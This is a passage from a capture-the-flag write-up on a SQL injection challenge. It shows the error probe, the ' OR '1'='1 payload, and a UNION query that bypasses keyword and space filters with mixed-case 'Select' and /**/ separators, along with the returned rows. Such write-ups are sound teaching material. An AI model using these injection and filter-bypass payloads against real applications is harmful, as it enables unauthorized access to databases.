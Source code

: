 This last page is a hyperlink that goes to the next challenge!

## Challenge 3

**Challenge URL: [REDACTED]/c/c12539240c6c66aafbd2e62d87cc2a5a**

My initial impression is that this is another SQL injection challenge. The page text, 'The "users" table is protected by military grade security' is interesting. It's also possible this is a real SQL database, as the page asks not to employ automated tools (that may cause server performance issues).

To test for SQL vulnerabilities, submitting ' for the book title produces an error:
```
Error: The following error occurred: [unrecognized token: "'''"]

Query: SELECT * FROM books WHERE title='''
```
Let's try the previous challenge's answer.

Submitting the following in the input field...

```
' OR '1'='1
```

...produces a list of books in the database, not normally accessible:
```
1   Cryptonomicon         Neal Stephenson     Avon                         2002     978-0060512804
2   1984                  George Orwell       Secker and Warbur            1949     978-0-14-118776-1
3   Anathem               Neal Stephenson     HarperCollins Publishers     2009     978-0061474101
4   Neuromancer           William Gibson      Ace                          1984     0-441-56956-0
5   Superintelligence     Nick Bostrom        Oxford University Press      2014     978-0199678112
```

Interestingly, for every attempt to get the users table with ```SELECT```, ```'SELECT'``` is removed in the error. Using ```'Select'``` instead, or other case variations, is effective in bypassing the filter. Also, during these tests, spaces in the query string are removed.

Let's try to create our own query similar to the original query and what we know so far.

Original query:
```
SELECT * FROM books WHERE title=''
```

Modified query to invoke a result:
```
'/**/UNION/**/Select/**/*/**/FROM/**/books/**/WHERE/**/title='1984'--
```

We know that UNION combines multiple queries. In this case, a book with
the title '' and a book with the title 1984. The -- at the end comments
out any additional query commands.

This query products one result:
```
2   1984    George Orwell   Secker and Warburg  1949    978-0-14-118776-1
```
